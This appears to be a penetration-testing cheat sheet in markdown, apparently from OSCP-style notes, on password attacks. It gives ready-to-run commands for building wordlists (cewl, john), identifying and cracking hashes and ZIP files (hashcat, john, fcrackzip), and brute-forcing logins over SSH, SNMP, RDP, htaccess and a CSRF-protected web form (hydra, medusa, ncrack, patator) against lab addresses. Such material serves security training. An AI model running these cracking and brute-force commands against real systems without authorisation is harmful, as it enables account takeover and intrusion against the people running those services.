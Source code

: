 # Generate custom wordlist

## Cewl - Spider and build dictionary
```
cewl -w createWordlist.txt https://www.example.com
```

## Cewl - Add minimum password length
```
cewl -w createWordlist.txt -m 6 https://www.example.com
```

## Improve the custom wordlist
```
john --wordlist=wordlist.txt --rules --stdout > wordlist-modified.txt
```

# Offline password cracking

## Identify hash

In kali we can use `hash-identifier` or `hashid`

## Cracking the hash

**OFFLINE**
```
hashcat --help
john --wordlist=wordlist.txt dump.txt
```

**ONLINE**
* `findmyhash LM -h 6c3d4c343f999422aad3b435b51404ee:bcd477bfdb45435a34c6a38403ca4364`
* [Crackstation](https://crackstation.net/)
* [Hashkiller](https://hashkiller.co.uk/)
* Google hashes Search pastebin.

## ZIP

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

# Online password cracking

## Port 22 - SSH
```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

## Port 80/443 htaccess
```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Port 80 Http Form with CSRF Token
```
patator http_fuzz url=http://monitor.bart.htb/ method=POST body='csrf=_CSRF_&user_name=Daniel&user_password=FILE0&action=login' 0=custom_wordlist.txt follow=1 accept_cookie=1 -x ignore:fgrep='The information is incorrect.' before_urls="http://monitor.bart.htb/" before_egrep='_CSRF_:name="csrf" value="(\w+)"'
```

## Port 161 - SNMP
```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol
```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

# References

* https://sushant747.gitbooks.io/total-oscp-guide/generate_custom_wordlist.html
* https://sushant747.gitbooks.io/total-oscp-guide/identify_hash_and_crack_it.html

